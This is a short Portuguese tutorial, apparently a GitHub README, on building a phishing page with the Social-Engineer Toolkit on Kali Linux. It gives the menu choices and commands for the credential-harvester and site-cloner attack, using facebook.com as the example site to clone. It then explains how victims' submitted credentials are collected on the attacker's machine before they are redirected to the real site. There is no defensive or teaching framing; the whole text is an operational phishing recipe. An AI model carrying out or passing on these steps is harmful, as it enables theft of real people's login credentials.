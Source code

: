 Criação de phishing via KaliLinux

- > sudo su
- root # > setoolkit
*iniciara a ferramenta de ataque*
- set > 1 (Social Engineering)
-  set > 2 (Website Attack Vectors)
-  set:webattack> 3 (Credential Harvester Attack Method)
- set:webattack> 2 (Site Cloner)
*Obtenha o ip da maquina para o post back harvester*
- >ifconfig
- set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.0.105]: (De enter)
- set:webattack> Enter the url to clone: (insira o http do site que você irá clonar ex: http//:facebook.com)

-  Agora digite no navegador o IP escolhido para manter nossa pagina web clone que utilizaremos para o ataque.

*Note que no Kali reports de atividades aparecerão assim que iniciarmos a conexão*

- Aqui (na nossa pagina clonada) o alvo irá preencher suas credenciais e enviar para o nosso harvester antes de ser redirecionada para uma pagina autêntica

*No Kali poderemos então visualizar os resultados da colheita de credenciais*

![image](https://github.com/user-attachments/assets/edd9d402-2d55-4298-883f-aef2947e172c)
